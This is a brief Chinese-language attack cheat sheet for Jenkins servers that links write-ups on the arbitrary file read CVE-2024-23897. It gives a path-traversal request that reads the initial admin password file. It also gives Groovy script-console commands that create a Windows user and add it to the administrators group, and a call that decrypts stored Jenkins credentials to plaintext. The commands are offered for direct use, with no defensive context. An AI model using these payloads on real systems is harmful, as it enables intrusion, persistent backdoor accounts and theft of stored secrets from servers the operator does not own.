 [批量扫描脚本-Jenkins任意文件读取(CVE-2024-23897)](https://mp.weixin.qq.com/s/eES8iWuu1MNJQFUCib5L3Q)
[CVE-2024-23897 Jenkins 任意文件读取一键利用](https://mp.weixin.qq.com/s/fQd193hBrqKGpC-L7kxHBQ)

# 查找密码
Jenkins 用户名为 admin, 服务密码在
```bash
/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```
# 命令执行
Dashboard > Manage Jenkins > 脚本命令执行
```bash
println "net user dotast qwer1234! /add".execute().text  
println "net localgroup administrators dotast /add".execute().text  
```
# 查找凭据
Dashboard > Manage Jenkins > Credentials

gitlab 解明文
```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```
